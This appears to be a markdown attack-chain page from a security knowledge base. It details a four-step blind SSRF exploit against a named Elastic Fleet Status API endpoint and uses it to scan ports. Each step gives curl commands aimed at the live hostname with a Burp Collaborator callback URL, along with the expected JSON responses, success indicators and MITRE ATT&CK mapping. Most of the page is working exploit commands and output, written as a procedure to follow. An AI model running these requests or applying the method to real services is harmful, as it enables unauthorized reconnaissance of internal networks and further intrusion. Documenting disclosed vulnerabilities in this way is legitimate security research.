

# Blind SSRF in Elastic Fleet Status for Internal Port Scanning

Multi-stage attack chain demonstrating exploitation of a blind SSRF vulnerability in the Elastic Fleet Status application to scan internal ports via response observation.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Collaborator]]

### Target Environment

- Web platform with Elastic Fleet Status application at https://fleet-status.app.elstc.co
- Access to /api/v1/http/default/raw endpoint
- Burp Collaborator server for capturing outbound requests

### Initial Access Requirements

- Public access to the Fleet Status API
- No authentication required for the vulnerable endpoint
- Network position allowing HTTP requests to the target

## Detailed Attack Procedures

### Step 1: Craft and Send SSRF Request
procedure: [[procedures/Exploit-Blind-SSRF-for-Port-Scanning]]

**Objective**: Send an HTTP GET request to the vulnerable endpoint with an arbitrary external URL pointing to a Burp Collaborator server on a specific port to test connectivity.

**Instructions**: Use [[commands/curl-ssrf-request]] to craft the request, varying the port in the URL parameter:

```bash
curl "https://fleet-status.app.elstc.co/api/v1/http/default/raw?regex=%22service.name%22:/s _%22(package-registry)%22&statusCodeMax=200&statusCodeMin=200&url=http://p8yfvg6nige7z2ndagpf3v181z7pve.burpcollaborator.net:22"
```

Monitor the Burp Collaborator for any inbound requests from the target server.

**Expected Output**: HTTP response from the API indicating the request status.

**Success Indicators**:
- Request sent successfully (200 OK from API)
- No immediate data in Burp Collaborator (blind SSRF)

### Step 2: Observe Response for Closed Port
procedure: [[procedures/Exploit-Blind-SSRF-for-Port-Scanning]]

**Objective**: Analyze the API response for a closed port to identify timeout or unreachable indicators.

**Instructions**: Review the JSON response from the previous request. For a closed port like 22:

**Expected Output**: JSON response showing timeout:

```json
{"type":"HTTP-RAW","status":"WARNING","label":"http://p8yfvg6nige7z2ndagpf3v181z7pve.burpcollaborator.net:22","message":"timeout/host unreachable"}
```

**Success Indicators**:
- Status: "WARNING"
- Message indicates timeout or host unreachable

### Step 3: Observe Response for Open Port
procedure: [[procedures/Exploit-Blind-SSRF-for-Port-Scanning]]

**Objective**: Send a similar request to an open port and observe the successful response with raw data.

**Instructions**: Repeat the request with an open port like 80 using [[commands/curl-ssrf-request]]:

```bash
curl "https://fleet-status.app.elstc.co/api/v1/http/default/raw?regex=%22service.name%22:/s _%22(package-registry)%22&statusCodeMax=200&statusCodeMin=200&url=http://p8yfvg6nige7z2ndagpf3v181z7pve.burpcollaborator.net:80"
```

Check Burp Collaborator for captured requests.

**Expected Output**: JSON response with raw data:

```json
{"type":"HTTP-RAW","status":"FAILURE","label":"http://p8yfvg6nige7z2ndagpf3v181z7pve.burpcollaborator.net:80","value":{"values":["\u003chtml\u003e\u003cbody\u003eift3z4lojdng3fv7r68q5szjigz\u003c/body\u003e\u003c/html\u003e"],"unit":"RAW"}}
```

**Success Indicators**:
- Status: "FAILURE" with raw value present
- Inbound request captured in Burp Collaborator

### Step 4: Infer Internal Port Status
procedure: [[procedures/Exploit-Blind-SSRF-for-Port-Scanning]]

**Objective**: Compare responses to determine if ports are open or closed, enabling reconnaissance.

**Instructions**: Iterate over multiple ports (e.g., 22, 80, 443) using the same request pattern and log responses. Differentiate based on status and presence of raw data.

**Expected Output**: Mapped port statuses (e.g., 22 closed, 80 open).

**Success Indicators**:
- Consistent differentiation: timeouts for closed, data for open
- Ability to scan internal hosts by targeting internal IPs if possible

## Attack Chain Summary

### Key Achievements

1. Successful exploitation of blind SSRF without reading full responses
2. Detection of open/closed ports via response metadata
3. Reconnaissance of internal network services in Elastic Fleet environment

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Network Service Scanning]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Discovery]]

---
*Last updated: 2023-10-01T00:00:00Z*
